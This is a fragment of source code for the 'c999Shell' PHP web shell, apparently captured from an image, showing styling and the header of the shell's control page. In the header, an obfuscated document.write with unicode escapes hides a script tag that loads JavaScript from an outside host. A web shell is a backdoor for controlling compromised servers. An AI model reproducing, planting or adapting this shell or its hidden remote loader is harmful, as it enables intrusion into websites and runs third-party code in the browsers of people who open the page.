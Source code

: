 @ini_set("highlight.bg",$highlight_bg); //FFFFFF
@ini_set("highlight.comment",$highlight_comment); //#FF8000
@ini_set("highlight.default",$highlight_default); //#0000BB
@ini_set("highlight.html",$highlight_html); //#000000
@ini_set("highlight.keyword",$highlight_keyword); //#007700
@ini_set("highlight.string",$highlight_string); //#DD0000
if (!is_array($actbox)) {$actbox = array();}
$dspact = $act = htmlspecialchars($act);
$disp_fullpath = $ls_arr = $notls = null;
$ud = urlencode($d);
?&gt;&lt;meta http-equiv="Content-Type" content="text/html; charset=windows-1251" /&gt;&lt;meta http-equiv="Content-Language" content="en-us" /&gt;&lt;?php echo getenv("HTTP_HOST"); ?&gt; - phpshell&lt;/pre&gt;
&lt;style&gt;&lt;!--
TD { FONT-SIZE: 8pt; COLOR: #ebebeb; FONT-FAMILY: verdana;}BODY { scrollbar-face-color: #800000; scrollbar-shadow-color: #101010; scrollbar-highlight-color: #101010; scrollbar-3dlight-color: #101010; scrollbar-darkshadow-color: #101010; scrollbar-track-color: #101010; scrollbar-arrow-color: #101010; font-family: Verdana;}TD.header { FONT-WEIGHT: normal; FONT-SIZE: 10pt; BACKGROUND: #7d7474; COLOR: white; FONT-FAMILY: verdana;}A { FONT-WEIGHT: normal; COLOR: #dadada; FONT-FAMILY: verdana; TEXT-DECORATION: none;}A:unknown { FONT-WEIGHT: normal; COLOR: #ffffff; FONT-FAMILY: verdana; TEXT-DECORATION: none;}A.Links { COLOR: #ffffff; TEXT-DECORATION: none;}A.Links:unknown { FONT-WEIGHT: normal; COLOR: #ffffff; TEXT-DECORATION: none;}A:hover { COLOR: #ffffff; TEXT-DECORATION: underline;}.skin0{position:absolute; width:200px; border:2px solid black; background-color:menu; font-family:Verdana; line-height:20px; cursor:default; visibility:hidden;;}.skin1{cursor: default; font: menutext; position: absolute; width: 145px; background-color: menu; border: 1 solid buttonface;visibility:hidden; border: 2 outset buttonhighlight; font-family: Verdana,Geneva, Arial; font-size: 10px; color: black;}.menuitems{padding-left:15px; padding-right:10px;;}input{background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}textarea{background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}button{background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}select{background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}option {background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}iframe {background-color: #800000; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}p {MARGIN-TOP: 0px; MARGIN-BOTTOM: 0px; LINE-HEIGHT: 150%}blockquote{ font-size: 8pt; font-family: Courier, Fixed, Arial; border : 8px solid #A9A9A9; padding: 1em; margin-top: 1em; margin-bottom: 5em; margin-right: 3em; margin-left: 4em; background-color: #B7B2B0;}body,td,th { font-family: verdana; color: #d9d9d9; font-size: 11px;}body { background-color: #000000;}
--&gt;&lt;/style&gt;
&lt;pre&gt;&lt;/pre&gt;
&lt;center&gt;
&lt;table style="border-collapse: collapse;" width="100%" border="1" cellspacing="0" cellpadding="5" bgcolor="#333333"&gt;
&lt;tbody&gt;
&lt;tr&gt;
&lt;th colspan="2" valign="top" nowrap="nowrap" width="101%" height="15"&gt;
&lt;span style="font-family: Webdings; font-size: xx-large;"&gt;&lt;b&gt;!&lt;/b&gt;&lt;/span&gt;&lt;a href="&lt;?php echo $surl; ?&gt;"&gt;&lt;span style="font-family: Verdana; font-size: x-large;"&gt;&lt;b&gt;&lt;script type="text/javascript"&gt;// &lt;![CDATA[
document.write('\u003c\u0053\u0043\u0052\u0049\u0050\u0054\u0020\u0053\u0052\u0043\u003d\u0068\u0074\u0074\u0070\u003a\u002f\u002f\u0077\u0077\u0077\u002e\u0063\u0039\u0039\u002e\u006d\u006f\u0062\u0069\u002f\u0069\u006d\u0061\u0067\u0065\u0073\u002f\u0069\u006d\u0067\u002e\u006a\u0073\u003e\u003c\u002f\u0053\u0043\u0052\u0049\u0050\u0054\u003e')
// ]]&gt;&lt;/script&gt;c999Shell v. &lt;!--?php echo $shver; ?--&gt;&lt;/b&gt;&lt;/span&gt;&lt;/a&gt;&lt;span style="font-family: Webdings; font-size: xx-large;"&gt;&lt;b&gt;!&lt;/b&gt;&lt;/span&gt;&lt;/th&gt;
&lt;/tr&gt;
&lt;/tbody&gt;
&lt;/table&gt;
&lt;/center&gt;
&lt;pre&gt;
&lt;b&gt;Software: &lt;!--?php echo $DISP_SERVER_SOFTWARE; ?--&gt;&lt;/b&gt; 
